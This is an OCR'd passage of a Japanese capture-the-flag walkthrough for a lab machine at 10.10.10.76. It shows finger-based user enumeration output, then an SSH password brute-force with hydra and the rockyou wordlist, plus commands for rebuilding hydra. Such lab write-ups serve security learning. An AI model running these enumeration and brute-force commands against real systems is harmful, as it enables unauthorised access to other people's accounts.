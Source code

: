   ```bash
  bin@10.10.10.76: bin             ???                         < .  .  .  . >..
  dee dee@10.10.10.76: Login       Name               TTY         Idle    When    Where..dee                   ???..dee                   ???..
  ike@10.10.10.76: ikeuser  IKE Admin                          < .  .  .  . >..
  jo ann@10.10.10.76: Login       Name               TTY         Idle    When    Where..ann                   ???..jo                    ???..
  la verne@10.10.10.76: Login       Name               TTY         Idle    When    Where..la                    ???..verne                 ???..
  line@10.10.10.76: Login       Name               TTY         Idle    When    Where..lp       Line Printer Admin                 < .  .  .  . >..
  message@10.10.10.76: Login       Name               TTY         Idle    When    Where..smmsp    SendMail Message Sub               < .  .  .  . >..                                 
  miof mela@10.10.10.76: Login       Name               TTY         Idle    When    Where..mela                  ???..miof                  ???..                                     
  sammy@10.10.10.76: sammy           ???            ssh          <Apr 13 13:38> 10.10.14.13         ..                                                                                
  sunny@10.10.10.76: sunny           ???            ssh          <Apr 13 13:52> 10.10.14.13         ..                                                                                
  zsa zsa@10.10.10.76: Login       Name               TTY         Idle    When    Where..zsa                   ???..zsa                   ???..
  ######## Scan completed at Thu Jul 21 23:28:44 2022 #########
  13 results.
  
  10177 queries in 3046 seconds (3.3 queries / sec)
  
  
  ```

  * sammyとsunnyがSSHでのログインに成功している。

## Initial Foothold

* SSHが開いていて２つのユーザネームがあるため、brute-forceでるログイン試行を試みる。hydraを利用する。

  ```bash
  hydra -l sunny -P '/usr/share/wordlists/rockyou.txt' 10.10.10.76 ssh -s 22022
  ```

  * -l: username
  * -P：password file
  * -s: port
  * 以下エラーが発生

  ```
  Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-21 23:41:44
  [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
  [ERROR] Compiled without LIBSSH v0.4.x support, module is not available!
  
  ```

  ・以下でエラー解消した

  ```
  git clone https://github.com/vanhauser-thc/thc-hydra.git 
  sudo apt install libssh-dev 
  cd thx_hydra
  sudo make clean
  sudo ./configure 
  sudo make install
  ```
